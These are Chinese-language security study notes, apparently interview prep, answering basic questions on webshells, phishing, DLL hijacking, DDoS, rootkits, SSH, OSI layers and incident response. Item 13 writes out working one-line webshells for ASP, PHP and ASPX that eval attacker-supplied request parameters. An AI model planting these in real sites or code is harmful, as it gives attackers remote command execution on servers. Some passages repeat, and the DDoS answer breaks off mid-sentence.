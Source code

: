 1.什么是WebShell?
WebShell就是以asp、php、jsp或者cgi等网页文件形式存在的─种命令执行环境，也可以将其称做为─种网页后门。黑客在入侵了─个网站后，通常会将这些asp或php后门文件与网站服务器WEB目录下正常的网页文件混在─起，然后就可以使用浏览器来访问这些asp或者php后门，得到─个命令执行环境，以达到控制网站服务器的目的（可以上传下载文件，查看数据库，执行任意程序命令等）。国内常用的WebShell有海阳ASP木马，Phpspy，c99shell等。
静态网页：最常用的格式文件就是html格式文件，大部分网页的格式都是html格式，html格式又包含有.htm、dhtml.xhtml.shtm.shtml。这些都是指静态页面，里面不含有动态程序。

动态网页：页面级包括有ASP（基于JavaScript 或VbScript或C#）、JSP、PHP、ASPX、jspx、cgi。这些里面是包含服务器端执行的代码，也就是服务器在将这些网页发给客户端之前，会先执行里面的动态程序语言，并把执行后生成的html发送到客户端来的，所以我们在客户端看到的源代码也是html格式的（因为动态的代码直接在服务器上执行，而这些服务器代码是前台是不会显示出来。

2.什么是网络钓鱼？
网络钓鱼是通过大量发送声称来自于银行或其他知名机构的欺骗性垃圾邮件,意图引诱收信人给出敏感信息（如用户名、口令、帐号 ID 、 ATMPIN 码或信用卡详细信息）的一种攻击方式。
最典型的网络钓鱼攻击将收信人引诱到一个通过精心设计与目标组织的网站非常相似的钓鱼网站上，并获取收信人在此网站上输入的个人敏感信息，通常这个攻击过程不会让受害者警觉。
它常常导引用户到URL与接口外观与真正网站几无二致的假冒网站输入个人数据。就算使用强式加密的SSL服务器认证，要侦测网站是否仿冒实际上仍很困难。网钓是一种利用社会工程技术来愚弄用户的实例。它凭恃的是现行网络安全技术的低亲和度。

3.你获取网络安全知识途径有哪些？
网站，看雪，安全焦点，国内的乌云，FreeBuf
视频学习：i春秋，51cto，慕课网，实验楼，实验吧，网易云课堂等等
微信公众号、知乎等，企业src等
书籍，《白帽子讲web安全》《Web应用安全权威指南》等
然后就是请教牛人
最后是公司内技术分享。

DLL劫持原理

由于输入表中只包含DLL名而没有它的路径名，因此加载程序必须在磁盘上搜索DLL文件。首先会尝试从当前程序所在的目录加载DLL，如果没找到，则在Windows系统目录中查找，最后是在环境变量中列出的各个目录下查找。利用这个特点，先伪造一个系统同名的DLL，提供同样的输出表，每个输出函数转向真正的系统DLL。程序调用系统DLL时会先调用当前目录下伪造的DLL，完成相关功能后，再跳到系统DLL同名函数里执行。这个过程用个形象的词来描述就是系统DLL被劫持（hijack）了。
伪造的dll制作好后，放到程序当前目录下，这样当原程序调用原函数时就调用了伪造的dll的同名函数里执行。这个过程用个形象的词来描述就是系统DLL被劫持（hijack）了。
伪造的dll制作好后，放到程序当前目录下，这样当原程序调用原函数时就调用了伪造的dll的同名函数，进入劫持DLL的代码，处理完毕后，再调用原DLL此函数。

如何防止DLL劫持
DLL劫持利用系统未知DLL的搜索路径方式，使得程序加载当前目录下的系统同名DLL。所以可以告诉系统DLL的位置，改变加载系统DLL的顺序不是当前目录，而是直接到系统目录下查找。

4.什么是CC攻击？

这个也是知道一些，知道他是DDos的变种，正常请求伪造，服务器资源耗尽，最终还是看看百科答案吧：CC攻击是DDOS（分布式拒绝服务）的一种，相比其它的DDOS攻击CC似乎更有技术含量一些。这种攻击你见不到真实源IP，见不到特别大的异常流量，但造成服务器无法进行正常连接。CC攻击的原理就是攻击者控制某些主机不停地发大量数据包给对方服务器造成服务器资源耗尽，一直到宕机崩溃。CC主要是用来攻击页面的，每个人都有这样的体验：当一个网页访问的人数特别多的时候，打开网页就慢了，CC就是模拟多个用户（多少线程就是多少用户）不停地进行访问那些需要大量数据操作（就是需要大量CPU时间）的页面，造成服务器资源的浪费，CPU长时间处于100%，永远都有处理不完的连接直至就网络拥塞，正常的访问被中止。

5.Web服务器被入侵后，怎样进行排查？
最简单就是
查看下web 服务器日志
看看有没有异常端口开放
使用安全狗等服务器安全软件清扫

6.dll文件是什么意思，有什么用？
DLL（Dynamic Link Library）文件，即动态链接库，也有人称作应用程序拓展。
Windows应用程序中，实行了模块化设计，也就是说并不是每个应用程序都编写完所有的功能代码，而是在运行过程中调用相应功能的DLL，不需运行的功能就不调用，所以大大加快了程序的加载速度和效率，其他应用程序也可以调用相关的DLL，这样也有利于促进代码重用以及内存使用效率，减少了资源占用，而且程序更新时也只要更新相关的DLL就可以了。
要注意的是，有些病毒也会伪装成DLL文件，并替换系统的DLL文件，需要我们防范。

7.0day漏洞

是已经发现但是官方还没发布补丁的漏洞。
信息安全意义上的0Day是指在安全补丁发布前而被了解和掌握的漏洞信息。

8.Rootkit是什么意思

Rootkit是一种特殊类型的 malware（恶意软件）。Rootkit 之所以特殊是因为您不知道它们在做什么事情。Rootkit基本上是无法检测到的，而且几乎不可能删除它们。虽然检测工具在不断增多，但是恶意软件的开发者也在不断寻找新的途径来掩盖他们的踪迹。
Rootkit的目的在于隐藏自己以及其他软件不被发现。它可以通过阻止用户识别和删除攻击者的软件来达到这个目的。Rootkit 几乎可以隐藏任何软件，包括文件服务器、键盘记录器、Botnet 和Remailer。许多Rootkit 甚至可以隐藏大型的文件集合并允许攻击者在您的计算机上保存许多文件，而您无法看到这些文件。
防止 Rootkit 进入您的系统是能够使用的最佳办法。为了实现这个目的，可以使用与防范所有攻击计算机的恶意软件一样的深入防卫策略。深度防卫的要素包括：病毒扫描程序、定期更新软件、在主机和网络上安装防火墙，以及强密码策略

9.蜜罐
蜜罐好比是情报收集系统。蜜罐好像是故意让人攻击的目标，引诱黑客前来攻击。所以攻击者入侵后，你就可以知道他是如何得逞的，随时了解针对服务器发动的最新的攻击和漏洞。还可以通过窃听黑客之间的联系，收集黑客所用的种种工具，并且掌握他们的社交网络。

10.ssh

SSH 为 Secure Shell 的缩写专为远程登录会话和其他网络服务提供安全性的协议.ftp、pop和telnet在本质上都是不安全的
SSL(SecureSockets Layer (SSL) and Transport Layer Security (TLS))被设计为加强Web安全传输(HTTP/HTTPS/)的协议(事实上还有SMTP/NNTP等),SSH(Secure Shell)更多的则被设计为加强Telnet/FTP安全的传输协议,默认地,它使用22端口.

11.DDOS
分布式拒绝服务(DDoS:Distributed Denial ofService)攻击指借助于客户/服务器技术，将多个计算机联合起来作为攻击平台，对一个或多个目标发动DDoS攻击，从而成倍地提高拒绝服务攻击的威力。利用客户/服务器技术，主控程序能在几秒钟内激活成百上
12.震网病毒：

指一种蠕虫病毒，是第一个专门定向攻击真实世界中基础（能源）设施的“蠕虫”病毒，比如核电站，水坝，国家电网。只要电脑操作员将被病毒感染的U盘插入USB接口，这种病毒就会在神不知鬼不觉的情况下(不会有任何其他操作要求或者提示出现)取得一些工业用电脑系统的控制权。

13.一句话木马

asp一句话木马：
<%execute(request("value"))%>

php一句话木马：
<?php@eval($_POST[value]);?>   
变形：<?php$x=$_GET[‘z’];@eval(“$x;”);?>

aspx一句话木马：
<%@ PageLanguage="Jscript"%>
<%eval(Request.Item["value"])%>

14.Https的作用

内容加密建立一个信息安全通道，来保证数据传输的安全；
HTTPS和HTTP的区别
https协议需要到CA申请证书。
http是超文本传输协议，信息是明文传输；前者是80，后者是443。

15.手工查找后门木马的小技巧
1、首先最需要注意的地方是系统的启动项
2、查看系统关键目录system32和系统安装目录Windows下的文件
3、观察网络连接是否存在异常，还有“运行”-“cmd”-“netstat -an”查看有没有可疑或非正常程序的网络连接

16.描述OSI（开放系统互联基本参考模型）七层结构
应用层 表示层 会话层 传输层 网络层 数据链路层 物理层
传输层的数据叫段，网络层叫包，数据链路层叫帧，物理层叫比特流，这样的叫法叫PDU（协议数据单元）

17.TCP和UDP的区别

     1.TCP协议在传送数据段的时候要给段标号；UDP协议不
     2.TCP协议可靠；UDP协议不可靠
     3.TCP协议的发送方要确认接收方是否收到数据段（3次握手协议）

18.脱壳
加壳”指的是对编译好的EXE、DLL等文件采用加壳来进行保护；“脱壳”指的就是将文件外边的壳去除，恢复文件没有加壳前的状态。壳分为压缩壳、密码壳、加密壳三种

19.“人肉搜索”
是一种类比的称呼，主要是用来区别传统搜索引擎。它主要是指通过集中许多网民的力量去搜索信息和资源的一种方式

20.SYN Flood的基本原理
   SYN Flood是当前最流行的DoS（拒绝服务攻击）与DDoS（分布式拒绝服务攻击）的方式之一，这是一种利用TCP协议缺陷，发送大量伪造的TCP连接请求，从而使得被攻击方资源耗尽（CPU满负荷或内存不足）的攻击方式。
从防御角度来说，有几种简单的解决方法，
第一种是缩短SYNTimeout时间
第二种方法是设置SYN Cookie，就是给每一个请求连接的IP地址分配一个Cookie，如果短时间内连续受到某个IP的重复SYN报文，就认定是受到了攻击

21.什么是手机”越狱“
所谓iOS系统的越狱就是取得系统最高权限的行为，越狱前后iOS系统本身并不会发生质的改变，只是越狱后可以对iOS系统进行更充分的利用而已。

22.主机被入侵，你会如何处理这件事自查解决方案：
1、病毒木马排查。
    1.1、使用netstat查看网络连接，分析是否有可疑发送行为
     1.2、使用杀毒软件进行病毒查杀。
2、服务器漏洞排查并修复
     2.1、查看服务器账号是否有异常，如有则停止删除掉
     2.2查看MySQL、SQLServer、FTP、WEB管理后台等其它有设置密码的地方，提高密码强度（字每+数字+特殊符号）大小写，10位及以上
3、开启云盾服务

23. NAT（网络地址转换）协议
它实现内网的IP地址与公网的地址之间的相互转换，将大量的内网IP地址转换为一个或少量的公网IP地址，减少对公网IP地址的占用
A类 10.0.0.0--10.255.255.255
B类 172.16.0.0--172.31.255.255
C类 192.168.0.0--192.168.255.255

24.内网穿透
即NAT穿透，采用端口映射，让外网的电脑找到处于内网的电脑，同时也可基于HTTP/2实现web内网穿透。 

25.虚拟专用网络
功能是：在公用网络上建立专用网络，进行加密通讯。在企业网络中有广泛应用.
